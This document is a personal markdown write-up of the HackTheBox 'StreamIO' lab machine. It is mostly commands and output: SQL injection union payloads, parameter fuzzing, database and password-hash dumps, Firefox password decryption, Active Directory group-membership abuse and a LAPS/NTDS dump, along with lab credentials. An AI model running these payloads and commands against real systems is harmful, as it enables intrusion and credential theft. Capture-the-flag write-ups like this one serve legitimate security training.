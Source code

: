 ```yaml
---
title: HackTheBox-StreamIO
date: 2024-12-23 09:42:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [MSSQL, Add-Domain-Group-Member, firefox, LAPS]     # TAG names should always be lowercase
image : /assets/images/images (1).jpg
---
```


## WebServerSQLi

    abdef' union select 1,name,3,4,5,6 FROM master..sysdatabases;-- -

    abdef' union select 1,name,3,4,5,6 FROM master..sysdatabases;-- -

    abdef' union select 1, STRING_AGG(CONCAT(table_name, ',',column_name), ', '),3,4,5,6 FROM information_schema.columns;-- -

    movies,id, movies,imdb, movies,metascore, movies,movie, movies,votes, movies,year, users,id, users,is_staff, users,password, users,username

    abdef' union select 1, STRING_AGG(CONCAT(username, ' ',password), '\n'),3,4,5,6 FROM users;-- -

found creds

yoshihide : 66boysandgirls..

## found injectable 

    ➜  stream ffuf -u "https://streamio.htb/admin/?FUZZ=" -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: PHPSESSID=m9uqrk5vlt9nqibfslm9srekcr" -fs 1678


    https://streamio.htb/admin/?debug=

## grab mssql creds

    PS C:\inetpub\streamio.htb> dir -recurse *.php | select-string -pattern "database"

    admin\index.php:9:$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
    login.php:46:$connection = array("Database"=>"STREAMIO" , "UID" => "db_user", "PWD" => 'B1@hB1@hB1@h');
    register.php:81:    $connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');

## Manual-Mssql-Enum

    PS C:\inetpub\streamio.htb> sqlcmd -H localhost -U db_admin -P 'B1@hx31234567890' -Q 'select name from master.dbo.sysdatabases'
    name                                                                                                                            
    --------------------------------------------------------------------------------------------------------------------------------
    master                                                                                                                          
    tempdb                                                                                                                          
    model                                                                                                                           
    msdb                                                                                                                            
    STREAMIO                                                                                                                        
    streamio_backup  

    PS C:\inetpub\streamio.htb> sqlcmd -H localhost -U db_admin -P 'B1@hx31234567890' -Q 'select table_name from streamio_backup.information_schema.tables'
    table_name                                                                                                                      
    --------------------------------------------------------------------------------------------------------------------------------
    movies                                                                                                                          
    users

    PS C:\inetpub\streamio.htb> sqlcmd -H localhost -U db_admin -P 'B1@hx31234567890' -Q 'USE streamio_backup; select * from users'
    Changed database context to 'streamio_backup'.
    id          username                                           password                                          
    ----------- -------------------------------------------------- --------------------------------------------------
            1 nikk37                                             389d14cb8e4e9b94b137deb1caf0612a                  
            2 yoshihide                                          b779ba15cedfd22a023c4d8bcf5f2332                  
            3 James                                              c660060492d9edcaa8332d89c99c9239                  
            4 Theodore                                           925e5408ecb67aea449373d668b7359e                  
            5 Samantha                                           083ffae904143c4796e464dac33c1f7d                  
            6 Lauren                                             08344b85b329d7efd611b7a7743e8a09                  
            7 William                                            d62be0dc82071bccc1322d64ec5b6c51                  
            8 Sabrina                                            f87d3c0d6c8fd686aacc6627f1f493a5                  

    (8 rows affected)
    PS C:\inetpub\streamio.htb> 

creds:

nikk37 : get_dem_girls2@yahoo.com

## firefox-pass-dec

https://github.com/lclevy/firepwd

    

    decrypting login/password pairs
    https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
    https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
    https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
    https://slack.streamio.htb:b'JDgodd',b'password@12'

## password-spray

JDgodd:JDg0dd1s@d0p3cr3@t0r

## Add-Domain-Group-Member

    $pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

    $cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $pass)

    Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"

    Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "streamio\JDgodd"

## LAPS

    ➜  stream nxc smb streamio.htb -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' --laps --ntds
    [!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
    SMB         10.10.11.158    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.158    445    DC               [-] DC\administrator:iJ4hbv!WEZ0a&m STATUS_LOGON_FAILURE


Video walkthrough
[WATCH!](https://youtu.be/cb7Q8rNTBCI)
